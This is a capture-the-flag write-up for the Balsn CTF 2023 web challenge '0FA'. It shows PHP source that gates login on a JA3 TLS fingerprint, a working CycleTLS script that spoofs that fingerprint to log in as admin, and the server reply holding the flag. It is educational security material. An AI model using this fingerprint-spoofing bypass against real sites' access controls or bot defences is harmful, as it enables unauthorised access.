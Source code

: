 ```yaml
---
title: 0FA
date: 2023-10-09
tags:
  - web
type: writeup
author: cartouche70
---
```


# 0FA

Description: I really don't like 2FA, so I created a 0FA login system!

Challenge Author: kaibro

- we have a php application
- we can see that in index.php it s just a submit query input that can be vulnerable

```html
<form method="post" action="flag.php">
            <div class="field">
                <input type="text" class="input" name="username" placeholder="Username...">
            </div>
            <input type="submit" class="button is-primary"><br>
        </form>
```

it goes to the flag.php

```php
<?php
include_once("config.php");
fingerprint_check();
if(!isset($_POST['username']) || $_POST['username'] !== "admin")
    die("Login failed!");
?>
```

so, if the username is not admin, then login fails, but he also makes some fingerprint checks(). Maybe it’s exploitable, but let s try to put admin there first and see the request

we sent a request to the server and we can see that we still have an error, but the username is indeed admin, we can look somewhere else. 

in the config.php, there is a defined JA3 fingerprint and it checks if that fingerprint is the same as the one received by the server.

```php
<?php
define("FINGERPRINT", "771,4866-4865-4867-49195-49199-49196-49200-52393-52392-49171-49172-156-157-47-53,23-65281-10-11-35-16-5-13-18-51-45-43-27-17513,29-23-24,0");
$flag = 'BALSN{fake_flag}';

function fingerprint_check() {
    if($_SERVER['HTTP_SSL_JA3'] !== FINGERPRINT) 
        die("Login Failed!"); 
}
```

After some research, we can see that the ja3 fingerprint can be impersonated.

For that, I used CycleTLS, an npm module good for ja3 impersonation.

```tsx
const qs = require('qs');

const initCycleTLS = require('cycletls');
// Typescript: import initCycleTLS from 'cycletls';

(async () => {
  // Initiate CycleTLS
  const cycleTLS = await initCycleTLS();
  const bodyDict = {username:"admin"};
  // Send request
  const response = await cycleTLS('https://0fa.balsnctf.com:8787/flag.php', {
    body: qs.stringify(bodyDict),
    headers: {"Content-Type": "application/x-www-form-urlencoded"},
    method: "POST",
    ja3: '771,4866-4865-4867-49195-49199-49196-49200-52393-52392-49171-49172-156-157-47-53,23-65281-10-11-35-16-5-13-18-51-45-43-27-17513,29-23-24,0',
    userAgent: 'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:87.0) Gecko/20100101 Firefox/87.0'
  }, 'post');

  console.log(response);

  // Cleanly exit CycleTLS
  cycleTLS.exit();

})();
```

after running this script, we have this output in console:

```tsx
{
  status: 200,
  body: '<html>\n' +
    '<head>\n' +
    '    <title>Balsn CTF 2023 - 0FA</title>\n' +
    '    <meta charset="UTF-8">\n' +
    '    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bulma@0.9.4/css/bulma.min.css">\n' +
    '</head>\n' +
    '<body>\n' +
    '  Here is your flag: BALSN{Ez3z_Ja3__W4rmUp}</body>\n' +
    '</html>',
  headers: {
    Connection: 'keep-alive',
    'Content-Type': 'text/html; charset=UTF-8',
    Date: 'Mon, 09 Oct 2023 07:54:15 GMT',
    Server: 'nginx/1.23.1'
  }
}
```
